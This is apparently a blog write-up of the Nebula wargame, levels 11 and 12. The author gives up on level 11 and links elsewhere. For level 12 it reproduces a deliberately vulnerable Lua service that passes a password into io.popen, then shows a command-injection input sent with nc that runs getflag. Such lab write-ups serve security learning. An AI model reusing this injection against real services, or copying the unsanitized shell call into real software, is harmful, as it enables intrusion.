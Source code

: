 I'll be honest with you and admit that I had a lot of trouble with this. I eventually looked up how to do this on other blogs, but still couldn't get it to work. After some searching I believe it's down to the bash version my VM is running. The exploit was possible due to some feature in older versions of bash, but not in the version I have. If you would like to read how to get level 11 you can do so here: [https://www.kroosec.com/2012/11/nebula-level11.html](https://www.kroosec.com/2012/11/nebula-level11.html)

## level 12

> There is a backdoor process listening on port 50001.

```
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 50001))

function hash(password)
  prog = io.popen("echo "..password.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local line, err = client:receive()
  if not err then
    print("trying " .. line) -- log from where ;\
    local h = hash(line)

    if h ~= "4754a4f4bd5787accd33de887b9250a0691dd198" then
      client:send("Better luck next time\n");
    else
      client:send("Congrats, your token is 413**CARRIER LOST**\n")
    end

  end

  client:close()
end
```

So we need to connect to the localhost on port 50001 and enter the correct password. the password is whatever the hash is in plain text. But even if we get it right you can see that we don't get our token. With a specially crafted password however, we can make use of the `io.popen` call.

```
level12@nebula:/home/flag12$ nc localhost 50001
Password: hello && getflag > /tmp/out
Better luck next time
level12@nebula:/home/flag12$ cat /tmp/out
You have successfully executed getflag on a target account
```
